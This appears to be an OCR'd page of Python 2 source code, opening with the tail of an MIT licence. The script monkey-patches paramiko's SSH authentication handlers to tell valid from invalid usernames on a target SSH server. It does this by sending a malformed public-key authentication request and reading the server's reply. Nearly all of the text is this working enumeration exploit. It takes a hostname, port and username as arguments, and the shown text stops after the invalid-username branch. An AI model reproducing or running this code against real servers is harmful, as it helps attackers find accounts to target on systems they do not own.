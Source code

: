 ```python
# all copies or substantial portions of the Software.
#
# THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS OR
# IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY,
# FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE
# AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER
# LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING
# FROM, OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS
# IN THE SOFTWARE.
 
import argparse
import logging
import paramiko
import socket
import sys
 
class InvalidUsername(Exception):
    pass
 
def add_boolean(*args, **kwargs):
    pass
 
old_service_accept = paramiko.auth_handler.AuthHandler._handler_table[
        paramiko.common.MSG_SERVICE_ACCEPT]
 
def service_accept(*args, **kwargs):
    paramiko.message.Message.add_boolean = add_boolean
    return old_service_accept(*args, **kwargs)
 
def userauth_failure(*args, **kwargs):
    raise InvalidUsername()
 
paramiko.auth_handler.AuthHandler._handler_table.update({
    paramiko.common.MSG_SERVICE_ACCEPT: service_accept,
    paramiko.common.MSG_USERAUTH_FAILURE: userauth_failure
})
 
logging.getLogger('paramiko.transport').addHandler(logging.NullHandler())
 
arg_parser = argparse.ArgumentParser()
arg_parser.add_argument('hostname', type=str)
arg_parser.add_argument('--port', type=int, default=22)
arg_parser.add_argument('username', type=str)
args = arg_parser.parse_args()
 
sock = socket.socket()
try:
    sock.connect((args.hostname, args.port))
except socket.error:
    print '[-] Failed to connect'
    sys.exit(1)
 
transport = paramiko.transport.Transport(sock)
try:
    transport.start_client()
except paramiko.ssh_exception.SSHException:
    print '[-] Failed to negotiate SSH transport'
    sys.exit(2)
 
try:
    transport.auth_publickey(args.username, paramiko.RSAKey.generate(2048))
except InvalidUsername:
    print '[*] Invalid username'
```